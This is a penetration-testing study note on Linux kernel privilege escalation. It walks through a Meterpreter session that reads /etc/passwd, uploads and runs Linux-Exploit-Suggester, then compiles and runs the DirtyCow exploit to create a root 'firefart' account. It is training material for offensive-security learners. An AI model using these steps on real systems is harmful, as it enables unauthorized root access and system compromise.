 # A - Linux Kernel Exploits

### **Linux Kernel Exploitation**

* Kernel exploits on Linux will typically target vulnerabilities in the Linux kernel to execute arbitrary code in order to run privileged system commands or to obtain a system shell.
* This process will differ based on the Kernel version and distribution being targeted and the kernel exploit being used.
* Privilege escalation on Linux systems will typically follow the following methodology:
  * Identifying kernel vulnerabilities.
  * Downloading, compiling and transferring kernel exploits onto the target system.

### **Tool & Environment**

* Linux-Exploit-Suggester - This tool is designed to assist in detecting security deficiencies for given Linux kernel/Linux-based machine. It assesses (using heuristics methods) the exposure of the given kernel on every publicly know Linux kernel exploit.
  * GitHub: [https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)



## **Practical Demonstration**

After gaining initial foothold on the target, perform some system enumeration.

{% code overflow="wrap" lineNumbers="true" %}
```bash
sysinfo #Returns system info
getuid #Return user you're currently logged in with
getprivs #Returns privilges available to current user
shell # switch to a shells session on target system.

/bin/bash -i #Elevate to a bash shell
groups www-data # list groups the user belongs to.
bash > cat /etc/passw #Returns all users available on the system.


# Elevating privileges.
# download the Linux-Exploit-Suggester tool.
# Upload LES tool into /tmp folder on target system.
upload <localPathToFile > les.sh

# open a shell session again
shell
/bin/bash -i
chmod +x les.sh # give it execution permission.
./les.sh # Execute the LES tool.
# we get many vuln results such as: dirtycow, dirtycow2, perf_swevent etc..
# when the OS version is specified in color "Yellow" means its vuln to the exploit.

#Check result of LES and choose a kernel exploit to use, then read it's documentation.
#Follow the documentation instructions (it's different from an exploit to another but usually, download -> compile -> upload -> execute).
#You may need to compile the exploit code directly onto the target machine.


# in our case we will be using the "dirtycow" exploit.
# step 1
# download the C code from exploitdb.com.

# step 2
# Compilation process.
# download the "gcc" compiler with "sudo apt-get install gcc".
gcc -pthread dirty.c -o dirty -lcrypt # cmd to compile the file.

# step 3
# upload the compiled file to the target, from the meterpreter session.
upload ~/Downloads/dirty
shell  # spawn a shell session.
/bin/bash -i
chmod +x dirty
./dirty password123
# and the exploit failed, so we have to compile it on the target PC.
# repeat same steps on the target PC.

# we then get a "firefart" user created with root privilege, we can switch to it.
# we can use ssh to the "firefart" user.
```
{% endcode %}



